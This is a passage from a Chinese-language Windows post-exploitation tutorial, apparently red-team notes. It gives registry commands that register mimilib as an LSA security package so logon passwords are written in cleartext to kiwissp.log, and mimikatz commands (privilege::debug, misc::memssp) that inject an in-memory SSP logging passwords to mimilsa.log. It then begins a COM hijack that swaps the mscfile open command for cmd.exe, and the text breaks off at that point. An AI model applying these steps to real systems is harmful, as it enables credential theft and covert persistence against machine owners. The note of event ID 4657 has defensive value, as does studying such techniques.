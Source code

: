 2.查看Security Packages

    
    
    reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

3.修改Security Packages值

    
    
    reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ

![]()

密码会保存在:

    
    
    C:\Windows\System32\kiwissp.log

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210808101325.png)

会产生事件ID为4657的日志。

## 2.2 内存加载

    
    
    privilege::debugmisc::memssp

  

当用户登录的时候密码会储存在

    
    
    C:\Windows\system32\mimilsa.log

# 0x03 com劫持

Microsoft 组件对象模型 (COM) 是一个独立于平台、分布式、面向对象的系统，用于创建可以交互的二进制软件组件。

我们可以更改事件管理器，使其打开启动我们的二进制文件。

修改

    
    
    HKCU\SOFTWARE\Classes\mscfile\shell\open\command

将原来的

    
    
    %SystemRoot%\system32\mmc.exe "%1" %*

修改为：

    
    
    C:\windows\system32\cmd.exe

执行：

    